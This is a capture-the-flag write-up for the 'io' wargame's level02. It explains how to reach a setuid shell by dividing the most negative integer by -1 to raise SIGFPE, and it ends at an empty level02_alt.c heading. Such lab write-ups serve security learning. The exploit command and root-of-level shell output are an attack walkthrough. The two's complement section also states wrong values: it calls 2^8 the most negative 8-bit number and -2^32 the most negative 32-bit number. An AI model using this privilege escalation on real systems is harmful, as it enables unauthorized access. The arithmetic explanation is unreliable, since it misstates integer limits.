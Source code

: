 ## First Look

```sh
level2@io:/levels$ ls -la level02*
-r-sr-x--- 1 level3 level2 5329 Oct  4  2011 level02
-r-sr-x--- 1 level3 level2 6940 May 26  2011 level02_alt
-r-------- 1 level2 level2  437 May 26  2011 level02_alt.c
-r-------- 1 level2 level2  495 Apr 13  2015 level02.c
```
There are 2 different binaries one can exploit to proceed to level3.
The challenge authors are very nice to include source code for both of them.

## level02.c
```sh
level2@io:/levels$ file level02
level02: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.18, BuildID[sha1]=aebfcd8c513176fcf9243deeeeda9720979a2ec9, not stripped
```
Info: Dynamically linked, x86 architecture for Intel and ELF binary.
```C
//a little fun brought to you by bla
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
void catcher(int a)
{
        setresuid(geteuid(),geteuid(),geteuid());
	    printf("WIN!\n");
        system("/bin/sh");
        exit(0);
}
int main(int argc, char **argv)
{
	puts("source code is available in level02.c\n");
    if (argc != 3 || !atoi(argv[2]))
        return 1;
    signal(SIGFPE, catcher);
    return abs(atoi(argv[1])) / atoi(argv[2]);
}
```
From above, we see that our goal is to call catcher. `argc` is argument count of a program. It includes the program name itself as argv[0]. Hence, the above program requires `./level02 arg1 arg2` in order to not return 1. Arg2 cannot be zero too hence, this guards against Divison by Zero Error.

When encountering a function like `signal`, we can always consult the man page `man signal`. 

```man
sighandler_t signal(int signum, sighandler_t handler);
```
From the man page, we read that a program can deliver signals in the form of `signum` to the process. This is very familiar to how one usually abort a program via `^C`. In fact, `^C` actually sends a SIGINT to the process.

Back to the code, we see that we have to somehow trigger a `SIGFPE`, floating point error. If you look closely in the man page, you will see a way to do so!

![signal man page](./images/image1.png)

Let us try out division of most negative integer by -1.

## most negative integer?
From our initial information gathering, we know that this is a 32 bit program. 
In computer, numbers are represented by bits. How about signed number? Simple. 
The most significant bit (leftmost) is reserved as *sign bit*.
The number is negative when sign bit is 1 else postive when 0.
### 8 bits example

0b00000001    = +1
0b00000010    = +2
0b00000000    = 0
0b11111111    = -1    
Huh? Why is this so? Won't one expect 0b10000001 to be the answer?
### 2's complement
To represent an integer -12. 
We first calculate what is +12  ->  0b00001100.
1. Flip the bits        0b00001100 -> 0b11110011
2. Add 1                0b11110011 -> 0b11110100 ( -12 )

The most negative number would be 2^8 (0b10000000) in the 8bits register.
Hence for 32 bit, it would be 2^32

```sh
level2@io:/levels$ python
Python 2.7.13 (default, Nov 24 2017, 17:33:09) 
[GCC 6.3.0 20170516] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 2**32
4294967296L
```
-4294967296 is the most negative number.

```sh
level2@io:/levels$ ./level02 -4294967296 -1
source code is available in level02.c

WIN!
sh-4.3$ id
uid=1003(level3) gid=1002(level2) groups=1002(level2),1029(nosu)
sh-4.3$ whoami
level3
```


## level02_alt.c
